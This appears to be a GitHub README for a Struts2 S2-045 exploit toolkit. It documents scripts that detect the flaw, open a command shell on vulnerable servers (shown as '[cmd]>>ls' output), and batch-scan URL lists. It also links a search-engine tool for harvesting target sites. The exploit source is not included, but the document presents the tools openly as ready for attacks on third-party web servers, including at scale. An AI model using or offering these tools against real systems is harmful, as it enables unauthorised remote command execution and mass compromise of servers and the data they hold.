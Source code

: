 ### USage

#### 检测漏洞POC
python s2_045.py http://xxx.com/a.action

```bash
>python s2_045_cmd.py http://xxx.com/a.action
[Loopholes exist] http://xxx.com/a.action
```
#### 漏洞利用POC（cmd版）
python s2_045_cmd.py http://xxx.com/a.action

```bash
>python s2_045_cmd.py http://xxx.com/a.action
[Loopholes exist] http://xxx.com/a.action
[cmd]>>ls
......
```
#### 多线程批量检测脚本
python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址(url中含.action/.do的地址)，运行完以后会生成一个result.txt文件存放存在漏洞的url
```

#### 利用搜索引擎批量检测脚本
想要采集网站中带.action/.do地址的，请看：[Search_S2_045](https://github.com/tengzhangchao/Struts2_045-Poc/tree/master/Search_S2_045)


更多请参考博客：[nMask](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)

